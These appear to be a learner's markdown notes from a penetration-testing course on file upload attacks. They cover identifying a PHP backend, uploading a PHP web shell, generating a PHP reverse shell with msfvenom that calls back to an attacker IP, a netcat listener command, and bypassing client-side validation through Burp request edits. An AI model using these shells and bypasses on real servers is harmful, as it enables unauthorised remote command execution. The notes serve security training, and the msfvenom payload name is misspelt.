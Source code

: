 # File Upload Attacks

## Intro to File Upload Attacks

a key feature of most web apps is to upload user files   
this comes with the risk of allowing users to store their malicious files on the web app back-end server  
could lead to arbitrary command execution to take control of backend server

### Types of file upload attacks 

most common reason for file upload vulnerabilities is weak file validation and verification  

worst possible kind of file upload vulnerability is an `unauthenticated arbitrary file upload`  
this will allow any unauthenticated user to upload any file type  

if filters such as extension and content validation are not secure then we might be able to bypass them 

most common and critical attack caused by arbitrary file uploads is `gaining remote command execution` over the backend server by uploading a web shell or script that sends a reverse shell  

web shell = execute any command and can be turned into an interactive shell  
reverse shell = upload script that sends shell to listener on our machine and interact with the remote server that way 

there may still be other ways to exploit the file upload functionality if protections are missing: 
- XSS or XXE
- DoS 
- overwrite critical system files and configs 
- etc

file upload vulnerabilities are not only caused by writing insecure functions but also by outdated libraries 

## Absent Validation 

the most basic type of file upload vulnerabilities occur when the app doesn't have any form of validation filters for uploaded files 

in these attacks we may directly upload our web shell or reverse shell and then visit the uploaded script to interact with our shell or send the reverse shell 

### Arbitrary file upload 

our target has an upload file field:  

![](Images/Pasted%20image%2020240207182323.png)

we can see that when we try to upload the file that all file types are allowed: 

![](Images/Pasted%20image%2020240207182401.png)

### Identifying web framework 

we need to upload a malicious script to test if we can upload any file type to the backend server so we can see if we can use this to exploit the server 

a web shell gives us an easy method to interact with the backend server by accepting shell commands and printing output back to us in the web browser  
needs to be written in the same language that runs the web server  

sometimes we can see the language by just looking at the page extension in the url, but some frameworks use web routes to map urls to web pages which might not show the extension  
also, with routes our file upload exploitation would be different because our files wouldn't be directly routable or accessible 

an easy way to see what language the server uses is visiting the `/index.ext` page where we would swap `ext` with common web extensions like `php`, `asp`, `aspx`, etc. 

when we try `/index.php` we get the same page we were visiting, which means that this is a PHP application: 

![](Images/Pasted%20image%2020240207182938.png)

using this or other methods like fuzzers may not always be accurate because web apps might not utilize index pages or may use more than one web extension 

could also use `wappalyzer` 

### Vulnerability identification 

now that we know that the server uses php we can submit a hello world php file and look for the ouput: 

![](Images/Pasted%20image%2020240207183844.png)

we could also use a script with something like `<?php echo system('hostname'); ?>`: 

![](Images/Pasted%20image%2020240207184236.png)

## Upload Exploitation 

### Web shells 

there are many web shells online that have different features/purposes   
PHP has `phpbash` which provides a terminal-like, semi-interactive web shell   
SecLists also has web shells for different frameworks and languages in `/opt/useful/SecLists/Web-Shells`

### Writing custom web shell 

for php we can use `system()` to execute system commands and print their output  
then we can use `cmd` with `$_REQUEST['cmd']`  
then when we visit our script on the app we can execute system commands with `?cmd=<command>`

remember that sometimes viewing the output in the source may be better 

for .NET apps we can pass the `cmd` parameter with `request('cmd')` to the `eval()` function and it should execute the command in `?cmd=` 

### Reverse shell 

a reliable reverse shell for PHP is `pentestmonkey`, but SecLists also has some 

to use pentestmonkey we can download the shell then edit in our target's IP and port, then we can start a netcat listener on our machine with the specified port with `nc -lnvp <port>`

### Generating custom reverse shell scripts 

always better to use core web framework functions to connect to our machine 

`msfvenom` can generate reverse shell scripts for many languages and might even try to bypass restrictions in place 

`msfvenom -p php/revers_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php`

then we can again set up a listener with netcat and visit the uploaded file 


`-p` - payloads  
`-f` - specify output language

reverse shells are always preferred over web shells because they have the most interactive method for controlling the compromised server, but they might not always work  

## Client-Side Validation 

can easily bypass apps with only client-side validation by interacting with the server or by modifying the front-end code through the browser's dev tools

### Client-side validation 

now our target specifies a list of accepted file extensions, even if we select all file types: 

![](Images/Pasted%20image%2020240208090209.png)

no requests seem to be made and the page does not refresh  
we also have control over any client-side code executed in our browser  

### Back-end request modification 

when we upload a normal file and capture it with burp we can see the png request: 

![](Images/Pasted%20image%2020240208090956.png)

so now we can modify the filename and content to be our shell script and get a successful upload: 

![](Images/Pasted%20image%2020240208091258.png)

we could have also changed the `Content-Type` of the file but at this stage this shouldn't be too important 

we can revisit the site and see our uploaded script: 

![](Images/Pasted%20image%2020240208091800.png)

### Disabling front-end validation 

client-side code can be modified or disabled entirely 

in our example we can see an input element with `onchange` and `accept` attributes: 

![](Images/Pasted%20image%2020240208092324.png)

the `accept` isn't necessary to change because through the UI we can select "All Files"

with any function like the the one in `onchange` we can type the function name in the devtools console to get its details 

code like this we can simply remove via editing the HTML: 

![](Images/Pasted%20image%2020240208092639.png)

however these changes will not persist through page refresh 


